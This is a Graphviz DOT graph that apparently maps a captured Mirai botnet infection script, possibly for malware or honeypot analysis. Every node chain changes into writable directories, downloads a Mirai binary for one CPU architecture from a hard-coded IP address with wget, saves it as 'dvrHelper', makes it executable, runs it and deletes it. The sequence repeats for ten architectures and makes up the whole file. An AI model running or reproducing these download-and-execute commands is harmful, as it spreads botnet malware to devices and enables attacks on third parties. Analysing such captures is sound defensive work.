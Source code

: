 digraph {
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 10 [label="||,"];
10 [label="wget http://113.53.235.91/e/mirai.arm -O dvrHelper "];
10 -> 174 [label=";,"];
174 [label="chmod +x dvrHelper "];
174 -> 176 [label=";,"];
176 [label="./dvrHelper "];
176 -> 177 [label=";,"];
177 [label="rm -rf dvrHelper\r "];
177 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 28 [label="||,"];
28 [label="wget http://113.53.235.91/e/mirai.m68k -O dvrHelper "];
28 -> 174 [label=";,"];
174 [label="chmod +x dvrHelper "];
174 -> 176 [label=";,"];
176 [label="./dvrHelper "];
176 -> 177 [label=";,"];
177 [label="rm -rf dvrHelper\r "];
177 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 46 [label="||,"];
46 [label="wget http://113.53.235.91/e/mirai.mips -O dvrHelper "];
46 -> 174 [label=";,"];
174 [label="chmod +x dvrHelper "];
174 -> 176 [label=";,"];
176 [label="./dvrHelper "];
176 -> 177 [label=";,"];
177 [label="rm -rf dvrHelper\r "];
177 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 64 [label="||,"];
64 [label="wget http://113.53.235.91/e/mirai.mpsl -O dvrHelper "];
64 -> 174 [label=";,"];
174 [label="chmod +x dvrHelper "];
174 -> 176 [label=";,"];
176 [label="./dvrHelper "];
176 -> 177 [label=";,"];
177 [label="rm -rf dvrHelper\r "];
177 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 82 [label="||,"];
82 [label="wget http://113.53.235.91/e/mirai.x86 -O dvrHelper "];
82 -> 174 [label=";,"];
174 [label="chmod +x dvrHelper "];
174 -> 176 [label=";,"];
176 [label="./dvrHelper "];
176 -> 177 [label=";,"];
177 [label="rm -rf dvrHelper\r "];
177 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 100 [label="||,"];
100 [label="wget http://113.53.235.91/e/mirai.spc -O dvrHelper "];
100 -> 174 [label=";,"];
174 [label="chmod +x dvrHelper "];
174 -> 176 [label=";,"];
176 [label="./dvrHelper "];
176 -> 177 [label=";,"];
177 [label="rm -rf dvrHelper\r "];
177 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 118 [label="||,"];
118 [label="wget http://113.53.235.91/e/mirai.arm7 -O dvrHelper "];
118 -> 174 [label=";,"];
174 [label="chmod +x dvrHelper "];
174 -> 176 [label=";,"];
176 [label="./dvrHelper "];
176 -> 177 [label=";,"];
177 [label="rm -rf dvrHelper\r "];
177 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 136 [label="||,"];
136 [label="wget http://113.53.235.91/e/mirai.arm5n -O dvrHelper "];
136 -> 174 [label=";,"];
174 [label="chmod +x dvrHelper "];
174 -> 176 [label=";,"];
176 [label="./dvrHelper "];
176 -> 177 [label=";,"];
177 [label="rm -rf dvrHelper\r "];
177 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 154 [label="||,"];
154 [label="wget http://113.53.235.91/e/mirai.ppc -O dvrHelper "];
154 -> 174 [label=";,"];
174 [label="chmod +x dvrHelper "];
174 -> 176 [label=";,"];
176 [label="./dvrHelper "];
176 -> 177 [label=";,"];
177 [label="rm -rf dvrHelper\r "];
177 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 172 [label="||,"];
172 [label="wget http://113.53.235.91/e/mirai.sh4 -O dvrHelper "];
172 -> 174 [label=";,"];
174 [label="chmod +x dvrHelper "];
174 -> 176 [label=";,"];
176 [label="./dvrHelper "];
176 -> 177 [label=";,"];
}
